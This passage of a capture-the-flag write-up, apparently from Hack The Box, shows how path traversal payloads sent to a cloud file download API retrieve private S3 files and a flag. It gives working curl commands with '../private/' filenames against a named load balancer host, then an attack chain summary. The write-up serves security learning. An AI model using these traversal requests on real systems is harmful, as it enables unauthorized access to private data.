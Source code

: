 Use path traversal to access private files:

```bash
curl -s -X POST "http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/download" \
  -H "Content-Type: application/json" \
  -d '{"filename":"../private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx"}'
```

**Success!** The API now generates a presigned URL with the correct private path:
- **Result:** `/vault/private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx`

### Step 5: Private File Access

Extract the presigned URL from the API response and download the private file:

```bash
# Use the presigned URL to download the file
curl -s "https://volnaya-vault.s3.eu-north-1.amazonaws.com/vault/private/DIRECTORATE%20ALPHA%20%26%20BETA%20FIELD%20OPERATIVES.docx?[PRESIGNED_URL_PARAMETERS]" \
  -o DIRECTORATE_ALPHA_BETA_OPERATIVES.docx
```

Similarly, access the second private file:

```bash
curl -s -X POST "http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/download" \
  -H "Content-Type: application/json" \
  -d '{"filename":"../private/_Post-Assessment Report.pdf"}'
```

### Step 6: Flag Extraction

Search the downloaded files for the flag:

```bash
# Check file type
file DIRECTORATE_ALPHA_BETA_OPERATIVES.docx
# Output: Microsoft Word 2007+

# Extract flag from Word document
strings DIRECTORATE_ALPHA_BETA_OPERATIVES.docx | grep "HTB"
```

**Flag Found:** `HTB{Tr4v3rsing_buck3ts_4fun}`

## Attack Chain Summary

```
1. S3 Bucket Enumeration → 2. JavaScript Analysis → 3. API Discovery → 4. Path Traversal Testing → 5. Private File Access → 6. Flag Extraction
```

## Key Vulnerabilities Exploited

1. **Path Traversal:** Using `../` sequences to escape intended directory scope
2. **Insufficient Input Validation:** API accepts unsanitized user input
3. **Overprivileged IAM Role:** AWS credentials allow broader access than intended
4. **Information Disclosure:** Sensitive files accessible through API manipulation
